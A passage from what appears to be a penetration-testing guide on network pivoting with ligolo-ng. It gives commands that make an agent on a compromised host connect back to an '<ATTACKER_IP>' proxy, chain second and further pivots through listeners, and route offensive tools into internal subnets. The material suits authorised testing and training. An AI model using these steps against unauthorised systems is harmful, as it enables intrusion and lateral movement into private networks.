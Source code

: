 4. Using the ligolo-ng agent to connect to the ligolo-ng proxy.
- In the compromised computer we can use the agent to connect back to the proxy.
`./agent -connect <ATTACKER_IP>:<PROXY_PORT> -ignore-cert`

5. Start tunneling traffic through ligolo-ng.
- Once the connection from the agent reaches the proxy we can use the `session` command to list the available sessions.
- We can use the arrow keys to select the session we want and issue the command `start` to start tunnelling traffic through it.

6. Using local tools.
- After the tunneling has been initiated, we can use local offensive tools, such as CrackMapExec, Impacket, Nmap through the ligolo-ng network pivot without any kind of limitations or added lag (this is especially true for Nmap).

#### Double Pivot
1. Setting up a listener in the initial pivoting session.
- To start a double pivot, we have to make sure that the connection of the second agent will go through the **first** agent to avoid losing contact to our first pivot. To do so, we will have to create a _listener_ to the ligolo-ng session responsible for the first pivot.
- This command starts a listener to all the interfaces (`0.0.0.0`) of the **compromised**  host in port `4443` (we can replace it with any other port we want, as long as it is not already in use in the compromised initial pivot host). Any traffic that reaches this listener will be **redirected to the ligolo-ng** proxy (`--to <ATTACKER_IP>:<PROXY_PORT>`).
`listener_add --addr 0.0.0.0:4443 --to <ATTACKER_IP>:<PROXY_PORT> --tcp`

2. Starting te second agent. 
- After transferring the ligolo-ng agent to the **second** pivot host that we have compromised we will start a connection **not directly to our ligolo-ng proxy** but to the first pivoting agent.
`.\agent.exe -connect <1st_PIVOT_HOST_IP>:4443 -ignore-cert `

3. Starting the second pivot.
- In the ligolo-ng proxy we will receive a call from the second agent through the listener of the first agent. We can use the `session` command and the arrow keys to navigate through the created sessions. Issuing the `start` and `stop` commands we can tell the ligolo-ng proxy which session will be used for tunneling traffic.

4. Adding a new IP route to the second network.
- Before being able to use our local tools to the second network that we want to pivot to, we need to add a new IP route for it through the `ligolo` interface that we created in the first step.
`ip route add 172.16.10.0/24 dev ligolo`

5. Using local tools.
- After the tunneling has been initiated, we can use local offensive tools to the second network as well.

#### Triple, etc. Pivot
- The process is exactly the same as the second pivot.

#### Pivoting to individual hosts to expose internally running services.
- The same process can also be used to pivot to individual hosts instead of whole subnets. This will allow an operator to expose locally running services in the compromised server, similar to the dynamic port forwarding through SSH.
